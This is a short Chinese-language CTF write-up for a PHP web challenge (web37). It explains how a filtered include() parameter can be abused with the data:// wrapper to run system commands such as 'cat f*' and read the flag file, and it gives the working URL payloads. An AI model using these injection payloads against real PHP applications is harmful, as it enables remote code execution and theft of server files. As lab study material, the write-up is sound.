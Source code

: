 得到flag

------

<div style="page-break-after:always"></div>

### 类型二

变量接收并过滤传入的数据,include来包含文件

#### web37

分析

![image-20231216115759840](image/image-20231216115759840.png)

$c没有执行, 而是包含文件

先看一下32的命令

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>

前半段/?c=include$_GET[a]?>其实就是用include来包含文件，前面是因为有过滤才写成这个形式，可以简写为c=include（a），然后传入一个参数a，然后用a=data://text/plain,<?php system("命令");?>来执行命令
```

这题中已经给你了一个include（$c），所以我们直接直接执行命令就行

![image-20231216115810604](image/image-20231216115810604.png)

但是这里的c，过滤掉了大小写的flag

![image-20231216115820306](image/image-20231216115820306.png)

构建命令

```
/?c=data://text/plain,<?php system("cat f*");?>
```

![image-20231216115850199](image/image-20231216115850199.png)

